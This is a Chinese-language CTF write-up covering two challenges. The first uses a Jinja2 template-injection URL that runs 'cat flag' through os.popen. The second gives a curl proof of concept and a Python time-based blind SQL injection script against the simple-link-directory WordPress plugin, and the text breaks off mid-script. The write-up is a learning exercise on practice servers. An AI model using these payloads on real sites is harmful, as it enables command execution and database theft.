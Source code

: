 ### ez_SSTI

简单 ssti

```
http://43.143.7.97:28254/?name={{config.__class__.__init__.__globals__['os']['popen']('cat flag').read()}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210052001015.png)

### ohmywordpress

题目给出了网站源码和 dockerfile

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210091616173.png)

一开始以为是在 wordpress 里面藏了个免杀的 webshell 需要自己找, 于是用 git diff 看了下和原版源码的差异, 但是并没有看出来什么, 估计是思路偏了

看源码的时候看到了 qwb

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210091619684.png)

想起来之前强网杯也有一道 wordpress 的题, 遂去看了下 wp, 思路是 user-meta 插件目录遍历

那么这题应该也差不多, 因为 wordpress 本身的源码已经足够安全了, 它的安全问题主要就来源于第三方主题和插件

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210091623746.png)

一共两个插件, 第一个没搜出来什么, 反倒是第二个 simple-link-directory, 存在 sql 注入

[https://wpscan.com/vulnerability/1c83ed73-ef02-45c0-a9ab-68a3468d2210](https://wpscan.com/vulnerability/1c83ed73-ef02-45c0-a9ab-68a3468d2210)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210091628711.png)

poc 如下

```bash
curl 'http://example.com/wp-admin/admin-ajax.php' --data 'action=qcopd_upvote_action&post_id=(SELECT 3 FROM (SELECT SLEEP(5))enz)'
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210091627936.png)

python 脚本

```python
import requests
import time

url = 'http://1.14.71.254:28504/wp-admin/admin-ajax.php'

dicts = r'NSSCTF{-abcdef0123456789}'

flag = ''

for i in range(1,99999):
    for s in dicts:
        payload = "(SELECT 3 FROM (SELECT if(ascii(substr((select group_concat(flag) from ctftraining.flag),{},1))={}, sleep(5),0))enz)".format(i,ord(s))
        start_time = time.time()
        print(s)
        res = requests.post(url,data={
            'action': 'qcopd_upvote_action',
            'post_id': payload
            })
        stop_time = time.time()
        if stop_time - start_time >= 5:
```